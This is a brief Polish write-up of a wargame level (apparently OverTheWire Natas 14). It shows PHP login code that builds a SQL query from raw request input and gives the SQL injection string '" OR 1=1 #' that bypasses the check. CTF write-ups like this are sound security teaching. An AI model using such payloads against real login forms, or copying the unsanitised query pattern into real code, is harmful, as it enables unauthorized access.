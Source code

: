 Ten poziom zawiera formularz logowania
![](Attachments/{64C61F47-76F0-42F4-A488-A521ADDBCFF2}.png)

Kod źródłowy:
```php
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<?php } ?>
```

W celu zdobycia hasła należy zastosować sqlinjection. W kodzie widać, że do żądania bezpośrednio są przekazywane dane do zapytania sql, nie ma tu mechanizmów takich jak escaping albo parametryzacja zapytań.

Podanie ciągu
```
" OR 1=1 #
```
daje hasło.

